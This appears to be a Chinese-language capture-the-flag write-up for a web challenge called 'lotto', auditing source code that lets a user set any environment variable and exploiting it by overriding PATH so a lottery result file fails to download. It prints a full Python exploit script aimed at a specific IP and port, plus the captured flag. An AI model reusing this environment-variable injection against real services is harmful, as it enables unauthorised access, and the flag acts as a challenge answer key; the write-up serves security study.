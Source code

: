 ```
python a.py 647e22 0
```

审计源码

![image-20220418194105169](images/7.png)

在lotto路由下，可以提交两个参数lotto_key和lotto_value

然后可以设置环境变量，下载了`/app/lotto_result.txt`

这个东西可以通过result路由传入一个files参数

![image-20220418195843723](images/8.png)

渲染到了result.html上

![image-20220418200448786](images/9.png)

可以看到一串数字

然后还可以去读一个`/app/guess/forecast.txt`，`/app/guess/forecast.txt`这个文件可控的，可以通过result路由读出来的对他进行相应的赋值

![image-20220418194706523](images/10.png)

在forecast路由下，传入一个file，然后保存到`/app/guess/forecast.txt`

那这里是不是就可以直接让他们相等返回flag了呢，但是并不行

可以看到这是是随机生成的数字，每次是不一样的

![image-20220418201933273](images/11.png)

再回到lotto路由

![image-20220418200319388](images/12.png)

不过这里的`os.environ[lotto_key] = lotto_value`是完全可控的

可以利用PATH，改变用户主目录，让这个文件下载到其他地方，os.environ["PATH"]可以理解为windows在其他地方打开了cmd

然后就可以让forecast对于lotto_result

exp如下

```
import requests
url = "http://121.36.217.177:53000/"

def lotto(key,value):
    data = {"lotto_key": key,
            "lotto_value": value}
    txt=requests.post(url + "lotto",data=data).text
    print(txt)

def getResult():
    txt=requests.get(url+"result").text
    p=txt.split("<p>")[-1].split("</p>")[0]
    return p

lotto("","")
result= {"file":getResult()}
requests.post(url + "forecast",files=result)
lotto("PATH","xxxx")
#*ctf{its_forecast_0R_GUNICORN}
```
